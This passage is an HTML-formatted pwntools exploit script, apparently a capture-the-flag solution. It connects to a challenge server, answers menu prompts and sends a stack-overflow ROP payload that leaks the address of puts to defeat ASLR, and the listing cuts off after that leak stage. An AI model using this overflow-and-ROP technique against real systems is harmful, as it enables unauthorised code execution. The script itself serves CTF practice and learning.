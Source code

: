 <div class="colorscripter-code" style="color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important; position:relative !important;overflow:auto"><table class="colorscripter-code-table" style="margin:0;padding:0;border:none;background-color:#fafafa;border-radius:4px;" cellspacing="0" cellpadding="0"><tr><td style="padding:6px;border-right:2px solid #e5e5e5"><div style="margin:0;padding:0;word-break:normal;text-align:right;color:#666;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="line-height:130%">1</div><div style="line-height:130%">2</div><div style="line-height:130%">3</div><div style="line-height:130%">4</div><div style="line-height:130%">5</div><div style="line-height:130%">6</div><div style="line-height:130%">7</div><div style="line-height:130%">8</div><div style="line-height:130%">9</div><div style="line-height:130%">10</div><div style="line-height:130%">11</div><div style="line-height:130%">12</div><div style="line-height:130%">13</div><div style="line-height:130%">14</div><div style="line-height:130%">15</div><div style="line-height:130%">16</div><div style="line-height:130%">17</div><div style="line-height:130%">18</div><div style="line-height:130%">19</div><div style="line-height:130%">20</div><div style="line-height:130%">21</div><div style="line-height:130%">22</div><div style="line-height:130%">23</div><div style="line-height:130%">24</div><div style="line-height:130%">25</div><div style="line-height:130%">26</div><div style="line-height:130%">27</div><div style="line-height:130%">28</div><div style="line-height:130%">29</div><div style="line-height:130%">30</div><div style="line-height:130%">31</div></div></td><td style="padding:6px 0;text-align:left"><div style="margin:0;padding:0;color:#010101;font-family:Consolas, 'Liberation Mono', Menlo, Courier, monospace !important;line-height:130%"><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">from</span>&nbsp;pwn&nbsp;<span style="color:#a71d5d">import</span>&nbsp;<span style="color:#0086b3"></span><span style="color:#a71d5d">*</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">r<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>remote(<span style="color:#63a35c">'115.68.235.72'</span>,<span style="color:#0099cc">1337</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">e<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>ELF(<span style="color:#63a35c">'./solo_test'</span>)</div><div style="padding:0 6px; white-space:pre; line-height:130%">libc<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>e.libc</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>r.sendlineafter</div><div style="padding:0 6px; white-space:pre; line-height:130%">sa<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>r.sendafter</div><div style="padding:0 6px; white-space:pre; line-height:130%">pr<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#0099cc">0x0000000000400b83</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">answer<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>[<span style="color:#63a35c">'Me'</span>,<span style="color:#63a35c">'No'</span>,<span style="color:#63a35c">'CTF'</span>,<span style="color:#63a35c">'Never'</span>,<span style="color:#63a35c">'No'</span>]</div><div style="padding:0 6px; white-space:pre; line-height:130%"><span style="color:#a71d5d">for</span>&nbsp;i&nbsp;<span style="color:#a71d5d">in</span>&nbsp;<span style="color:#066de2">range</span>(<span style="color:#066de2">len</span>(answer)):</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;&nbsp;&nbsp;&nbsp;sla(<span style="color:#63a35c">'&gt;&gt;'</span>,answer[i])</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">=</span><span style="color:#63a35c">'A'</span><span style="color:#0086b3"></span><span style="color:#a71d5d">*</span><span style="color:#0099cc">0x58</span></div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(pr)</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(e.got[<span style="color:#63a35c">'puts'</span>])</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(e.plt[<span style="color:#63a35c">'puts'</span>])</div><div style="padding:0 6px; white-space:pre; line-height:130%">payload<span style="color:#0086b3"></span><span style="color:#a71d5d">+</span><span style="color:#0086b3"></span><span style="color:#a71d5d">=</span>p64(e.symbols[<span style="color:#63a35c">'solo'</span>])</div><div style="padding:0 6px; white-space:pre; line-height:130%">sla(<span style="color:#63a35c">'--&gt;'</span>,payload)</div><div style="padding:0 6px; white-space:pre; line-height:130%">&nbsp;</div><div style="padding:0 6px; white-space:pre; line-height:130%">leak<span style="color:#0086b3"></span>